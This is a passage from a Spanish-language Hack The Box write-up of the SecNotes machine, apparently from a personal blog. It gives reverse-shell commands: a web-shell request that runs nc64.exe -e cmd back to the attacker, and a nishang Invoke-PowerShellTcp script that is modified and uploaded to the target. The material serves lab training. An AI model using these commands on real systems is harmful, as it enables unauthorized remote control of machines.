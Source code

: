 ```
/cmd.php?cmd=nc64.exe -e cmd <nuestraDirecciónIP> <puertoCualquiera>
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/35.png)

O por su parte podemos usar `Invoke-PowerShellTcp` de _nishang_, para lo cual descargaremos el script.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Añadimos lo siguiente al final del script.

```
Invoke-PowerShellTcp -Reverse -IPAddress <nuestraDirecciónIP> -Port <puertoCualquiera>
```

Lo subimos al servidor web.

```
put Invoke-PowerShellTcp.ps1
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/36.png)
